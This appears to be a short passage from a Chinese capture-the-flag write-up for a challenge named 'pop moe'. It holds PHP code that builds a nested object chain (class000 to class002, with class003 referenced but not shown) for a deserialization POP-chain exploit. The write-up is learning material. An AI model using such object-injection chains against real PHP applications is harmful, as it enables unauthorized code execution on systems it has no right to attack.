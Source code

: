 ![](./images/image-16.png)

### pop moe

整个pop链条是很简单的，从000到003直接走下来就行了，也不多说了

```
<?php

class class000 {
    private $payl0ad = 1;
    protected $what;
    function __construct()
    {
        $this->what=new class001();

    }
}
class class001 {
    public $payl0ad="dangerous";
    public $a;

    function __construct()
    {
       $this->a=new class002();

    }
}
class class002 {
    private  $sec;
    function __construct()
    {
        $this->sec=new class003();

    }

}
```